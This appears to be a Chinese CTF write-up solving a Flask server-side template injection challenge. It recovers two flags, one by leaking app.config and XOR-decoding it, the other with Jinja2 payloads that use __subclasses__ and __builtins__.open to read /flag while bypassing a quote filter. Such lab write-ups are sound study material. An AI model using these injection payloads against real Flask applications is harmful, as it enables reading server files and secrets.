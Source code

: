 <div>{%- include extensions/netease-cloud-music.html id='1792338' -%}</div>
###### 19-web-absolute_field

本ctf题目是一道flask框架的ssti注入题，题目中提示了有两个flag
一个在app.config中，另一个在根目录下

首先，我对flask框架进行了一些研究，了解了其基本的格式


> flask中文文档:
> [https://dormousehole.readthedocs.io/en/latest/](https://dormousehole.readthedocs.io/en/latest/ "flask中文文档")

 最基本的框架应用：helloworld

```python
from flask import Flask
app = Flask(__name__)

@app.route('/')
def hello_world():
return 'Hello, World!'
```

之后研究其源码：
	def encode(line, key, key2):
	return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x]))for x in range(len(line)))
	![ssti](D:\darktech\ssti.jpg)

```python
file = open("/app/flag", "r")
flag = file.read()
app.config['flag'] = encode(flag,
'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3',
'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')
flag = ""
```

很显然，这是一串Python的定义函数encode代码，用于对存放在app/flag的flag进行加密。

比较有趣的是，这串代码的加密解密居然是一模一样的。加密一次就是加密，再加密一次就解密了。

这个加密算法的原理是异或加密算法，异或加密算法中:

```
a^b=c , 则 b^c=a.（a,b,c分别表示一串二进制数）
```

> 关于异或加密算法的链接:
>
> [异或加密算法](https://blog.csdn.net/d_r_l_t/article/details/81369407)



研究了这一部分以后，我把目光转向如何从app.config获取flag。
在翻阅了一些资料以后，找到了ssti的注入方法调取app.config

> 翻阅到的大佬的博客感觉非常的好:
> 
> [CTF SSTI的讲解，很详细](https://blog.csdn.net/qq_33020901/article/details/83036927 "ctf ssti")

调用{{config}}模块:

> {{config}} 



![QQ截图20191022195359](C:\Users\Administrator\Desktop\QQ截图20191022195359.jpg)

这个payload是从网上白嫖的，实际上只需要输入{{config}}就行

抓取到flag是：**\x18X5\x0cx\x19k}\r\x01a\x0c\x1fT\x16X?hl\x1e\\OLL(n\x17\x0fi]B\x0fh8**
显然这是加密过的。依据前面的代码补出python程序

```Python
def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

flag = encode('\x18X5\x0cx\x19k}\r\x01a\x0c\x1fT\x16X?hl\x1e\\OLL(n\x17\x0fi]B\x0fh8', 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')

print (flag)
```



##### 于是得到config处flag：**Syc{this\_1s\_Twice\_interv1ew\_F14g}**

----------


另一个flag在根目录下

审计了题目这里的代码:
	
```python
@app.route('/syc')
def syc():

if "'" in request.args.get('name') or '"' in request.args.get('name'):
	return "nonono"
else:
	return render_template_string(request.args.get('name'))`
```

意思就是访问服务器/syc的目录get传参name变量，可以让服务器执行相应命令。过滤"",''符号

我查阅了一些资料

> [安全ssti bypass分析](http://www.secwk.com/2019/10/10/10195/)
> 
> [flask/jinja2模板注入](https://p0sec.net/index.php/archives/120/ "jinja2模板注入")
> 
> [浅析ssti](https://bbs.ichunqiu.com/article-1823-1.html)

> ```python
> __class__ 返回类型所属的对象
> __mro__ 返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。 
> __base__ 返回该对象所继承的基类 //
> __base__和__mro__都是用来寻找基类的
> __subclasses__ 每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表 
> __init__ 类的初始化方法 
> __globals__ 对包含函数全局变量的字典的引用
> ```

然后尝试构造了第一个payload(借助request.args绕过''限制):
```
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/flag
```

```python
().__class__.__bases__.__getitem__(0).__subclasses__()
#这部分是为了调用object基类，从而调用出file方法来操作
pop(40)(request.args.path).read()
#利用request.arg绕过''的限制
&path=/flag
#把路径设置为根目录
```

然后就失败了。我研究了半天到底是啥情况......结果发现这是个Python2的payload，根本没用，subclasses的pop(40)也就是file方法在Python3不存在。

所以说通过file方法调用文件显然是没用的。

当时发生了一个小插曲.....我为了找到subclasses的那个file方法，掏出了burpsuite的intruder爆破了一下靶服务器，结果服务器爆了.....后来我这个憨憨才想到是Python2和Python3的问题

不过后来我又仔细研究了一下发现了问题，看了这个博客很好，各方面都很详细
> [python-Flask模版注入攻击SSTI(python沙盒逃逸)](https://www.cnblogs.com/-qing-/p/11656544.html)

重新构造的payload:

```python
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__.open(request.args.path).read()}}&path=/flag
#这个调用class '_frozen_importlib._ModuleLock'来开启后面的方法寻找、读取flag文件
```

##### 得到flag:**Syc{this\_2s\_Twice\_interv1ew_F14g}**

> ~~感觉如果像原题一样过滤.我感觉我真的做不出来了QWQ~~